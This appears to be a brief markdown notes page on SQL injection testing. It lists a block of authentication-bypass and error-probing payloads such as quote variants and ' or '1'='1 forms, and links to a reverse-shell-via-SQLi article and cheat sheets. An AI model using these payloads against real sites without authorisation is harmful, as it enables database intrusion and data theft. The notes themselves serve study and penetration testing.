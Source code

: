 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

Rather than rewriting a guide on enumerating a database using SQL injection, I'm just going to provide a link: [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)

## SQLmap

To-do

## Further reading

* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)

